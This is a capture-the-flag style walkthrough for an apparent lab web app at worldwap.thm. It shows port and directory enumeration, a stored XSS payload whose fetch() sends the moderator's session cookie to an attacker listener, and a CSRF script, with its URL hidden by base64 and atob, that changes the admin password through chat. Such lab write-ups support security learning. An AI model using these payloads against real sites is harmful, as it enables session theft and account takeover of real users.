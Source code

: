 
## nmap scan
![](Pasted%20image%2020250208160826.png)

- 22 - ssh open
- 80 - cookie httponly secure flag not set

Let s see what is on port 8081 
	![](Pasted%20image%2020250208161928.png)
	![](Pasted%20image%2020250208161957.png)

```shell
(root㉿kali)-[~]
└─# dirbuster -u http://worldwap.thm:8081 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
File found: /index.php - 200
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=ltqln2ktcei1me78r6069f4ntl; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=rcs2an6hlmgm0ph5uim4lvlvt8; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
File found: /login.php - 200
Dir found: /icons/ - 403
File found: /profile.php - 302
File found: /clear.php - 200
Dir found: /assets/ - 200
File found: /chat.php - 302
Dir found: /icons/small/ - 403
File found: /db.php - 200
Dir found: /javascript/ - 403
File found: /logout.php - 302
File found: /setup.php - 200
File found: /block.php - 200
```

Nothing interesting found therefore we will get back at the main app hosted on port 80

## moderator account takeover
### **XSS (cookie steal)**
Let s try to create an account
	![](Pasted%20image%2020250208185950.png)
When we try to log in with the just created account we get the following message: ''user not verified" which means that our account was not validated by an authorithy(in our case an account moderator)
	![](Pasted%20image%2020250208190119.png)
We can try to register another account but this time to inject an XSS payload that will steal the moderator cookie once he will open our registration:

```javascript
<img src="nbyte" onerror="fetch('http://10.10.117.68:8000/?cookie='+document.cookie)">
```
OR
```javascript
<img src="nbyte2" onerror="fetch('http://10.10.117.68:8000/?secret='+encodeURIComponent(document.cookie))">
```

![](Pasted%20image%2020250208191234.png)

Now let s try to steal the moderator session using his cookies:
	![](Pasted%20image%2020250208191350.png)
		![](Pasted%20image%2020250208191459.png)

## administrator account takeover
### **CSRF (request of password change)**

We have noticed the change password feature and it s endpoint (it is useful functionality for our CSRF payload)
	![](Pasted%20image%2020250208213857.png)
Parameter that we wanna change is new_password (this one will be injected in our req)
	![](Pasted%20image%2020250208220056.png)Also we have the chat option where we can get in touch with our actual victim(admin)
	![](Pasted%20image%2020250208214135.png)

Perfect scenario until now... let's build the payload script that will be sent over the chat. Here's an example of how an attacker can update a password  and send an asynchronous request to update email/password seamlessly.

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://worldwap.thm:8081/change_password.php', true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

However, it must be noticed that our payload is included now in a `<href` attribute (is converted as a direct link)
	![](Pasted%20image%2020250208220532.png)

To solve this problem we have to encode whole url and use javascript decoder built in function `atob`.
	![](Pasted%20image%2020250208220659.png)
```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST',atob( 'aHR0cDovL3dvcmxkd2FwLnRobTo4MDgxL2NoYW5nZV9wYXNzd29yZC5waHA='), true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

![](Pasted%20image%2020250208220940.png)

Now we can log in into the admin page with the newly created password :)

